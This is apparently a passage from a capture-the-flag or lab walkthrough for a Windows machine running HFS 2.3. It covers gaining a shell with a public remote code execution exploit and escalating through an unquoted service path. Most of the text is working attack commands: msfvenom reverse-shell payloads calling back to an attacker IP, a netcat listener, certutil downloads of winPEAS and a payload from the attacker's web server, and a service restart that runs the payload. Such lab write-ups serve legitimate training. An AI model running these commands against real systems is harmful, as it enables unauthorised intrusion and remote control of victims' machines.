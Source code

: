 set a listener:
```bash
multi/handler
set options
```

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<kali ip> -f exe -o ASCService.exe
# we can upload through meterpreter

upload <exploit>
# and save in the unquoted path that is vulnerable

sc start <service>
```

> we should get a shell.


### Escalation Manual

search the exploit using:
```bash
searchsploit HFS 2.3
grab the python with remote code execution
change ip and port in the script


# set a listener in kali: nc -lvnp <port>
```

we need open a web server in the same directory as our nc.exe:
```bash
python -m http.server 80 
```

Then execute the exploit:
```bash
python 39161.py <kali ip> 8080
```

> we should get a shell with user access in our netcat.

Grab the winpeas.exe:
```bash
certutil -urlcache -f http://<kali ip>/winPEAS64.exe winpeas.exe
```


- run winpeas
- we should find the unquoted service
- we will generate with msfvenom again and send to the path of the vulnerable unquoted file

```bash
msfvenom -p windows/shell_reverse_tcp lhost=<kali ip> lport=<port> -f exe -o ASCService.exe

# send to the machine with the same method:
python -m http.server
certutils -urlcache -f http://<kali ip>/ASCService.exe ASCService.exe

sc stop <service>
sc start <service>
```
